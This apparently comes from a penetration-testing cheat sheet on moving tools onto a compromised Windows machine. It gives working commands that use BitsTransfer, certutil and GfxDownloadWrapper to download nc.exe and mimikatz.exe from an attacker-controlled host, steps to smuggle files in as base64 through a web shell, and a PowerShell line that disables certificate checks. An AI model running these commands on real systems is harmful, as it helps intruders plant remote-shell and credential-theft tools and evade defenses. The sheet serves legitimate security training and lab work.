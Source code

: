 **Bitstransfer (powershell)**

```powershell-session
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

**Certutil**

```cmd
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

**GfxDownloadWrapper.exe**

```powershell-session
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

#### Base64

Note that Windows Command Line utility (cmd.exe) has a maximum string length of  8,191 characters. Also, a web shell may error if you attempt to send  extremely large strings. 

1. check the encoding to compare later:

   ```bash
   md5sum [FILE]
   ```

2. encode a file to a base64 string

   ```bash
   cat [FILE] |base64 -w0;echo
   ```

3. copy the string, paste it in the Windows terminal and decode:

   ```cmd
   [IO.File]::WriteAllBytes("[LOCATION]", [Convert]::FromBase64String("[STRING]"))		
   ```

4. Check if everything went correctly:

   ```cmd
   Get-FileHash [LOCATION] -Algorithm md5
   ```

#### Powershell web Downloads

Defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains.

***Errors:***

- There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter `-UseBasicParsing`.

- If the certificate is not trusted:

  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  ```
